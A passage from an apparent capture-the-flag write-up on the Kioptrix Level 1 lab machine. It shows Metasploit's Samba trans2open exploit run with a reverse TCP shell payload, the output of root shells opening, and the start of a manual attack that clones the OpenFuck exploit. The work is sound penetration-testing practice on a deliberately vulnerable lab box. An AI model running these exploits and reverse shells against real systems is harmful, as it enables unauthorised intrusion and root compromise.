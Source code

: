 Let's chenge the payload to another payload  
Staged: ` linux/x86/shell/reverse_tcp`  
or,  
Non-Staged: ` linux/x86/shell_reverse_tcp `  
```
msf6 exploit(linux/samba/trans2open) > options

.......                    

msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.208.139:4444 
[*] 192.168.208.130:139 - Trying return address 0xbffffdfc...
[*] 192.168.208.130:139 - Trying return address 0xbffffcfc...
[*] 192.168.208.130:139 - Trying return address 0xbffffbfc...
[*] 192.168.208.130:139 - Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.208.130
[*] 192.168.208.130:139 - Trying return address 0xbffff9fc...
[*] Sending stage (36 bytes) to 192.168.208.130
[*] 192.168.208.130:139 - Trying return address 0xbffff8fc...
[*] Sending stage (36 bytes) to 192.168.208.130
[*] 192.168.208.130:139 - Trying return address 0xbffff7fc...
[*] Sending stage (36 bytes) to 192.168.208.130
[*] 192.168.208.130:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (192.168.208.139:4444 -> 192.168.208.130:32773) at 2024-07-12 14:17:58 -0400

[*] Command shell session 6 opened (192.168.208.139:4444 -> 192.168.208.130:32774) at 2024-07-12 14:17:59 -0400
[*] Command shell session 7 opened (192.168.208.139:4444 -> 192.168.208.130:32775) at 2024-07-12 14:18:00 -0400
[*] Command shell session 8 opened (192.168.208.139:4444 -> 192.168.208.130:32776) at 2024-07-12 14:18:02 -0400
whoami
root
hostname
kioptrix.level1

```
![image](/blogs/i-hacked-my-first-machine/kioptrix1.jpg) 
I got shell now. Successfully rooted this machine

### Manual Exploitation
> 80/443 is Vulnerable to OpenFuck  
```
┌──(psychic㉿0xShakhawat)-[~/ctf/vulnhub/kioptrix1]
└─$ git clone https://github.com/heltonWernik/OpenFuck.git
Cloning into 'OpenFuck'...
remote: Enumerating objects: 26, done.
remote: Total 26 (delta 0), reused 0 (delta 0), pack-reused 26
Receiving objects: 100% (26/26), 14.14 KiB | 278.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
```
Compiling the file...
```                   
┌──(psychic㉿0xShakhawat)-[~/ctf/vulnhub/kioptrix1]
└─$ cd OpenFuck               
                                                        
┌──(psychic㉿0xShakhawat)-[~/ctf/vulnhub/kioptrix1/OpenFuck]
└─$ ls
OpenFuck.c  README.md
                                                                                                                           
```